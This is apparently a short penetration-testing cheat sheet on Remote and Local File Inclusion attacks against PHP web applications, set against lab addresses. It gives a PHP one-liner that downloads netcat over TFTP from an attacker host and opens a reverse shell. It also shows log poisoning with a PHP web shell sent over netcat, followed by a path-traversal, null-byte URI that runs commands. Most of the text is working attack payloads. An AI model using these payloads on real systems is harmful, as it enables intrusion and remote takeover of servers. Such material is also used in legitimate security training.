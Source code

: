 
# Remote File Inclusion (RFI)
Below is dependant on victim running TFTP but you could find another file transfer method if needed.
<?php echo shell_exec("tftp -i 10.11.0.31 GET nc.exe && nc.exe 10.11.0.31 443 -e cmd.exe"); ?>

# Local File Inclusion (LFI)
Poison a Local File on Victim Machine 
* Example: `apache/logs/access.log`

## 1. Setup Netcat Connection to Victim WebApp & Pass Malicious parameter
Here we are making a connection to the victim web server and passing `<?php echo shell_exec($_GET['cmd']);>` to the connection. This will poison the `access.log` file.
```$xslt
root@kali:~# nc -nv 10.11.26.24 80
<?php echo shell_exec($_GET['cmd']);>
```

## 2. Craft URI Malicious URI
* We will point the vulnerable parameter to `../../../../../../../xampp/apache/logs/access.log`
* We will execute our command via the `cmd` param.
```$xslt
http://10.11.26/something.php?name=gothburz&comment=testing&cmd=ipconfig&LANG=../../../../../../../xampp/apache/logs/access.log%00&Submit=Submit
```

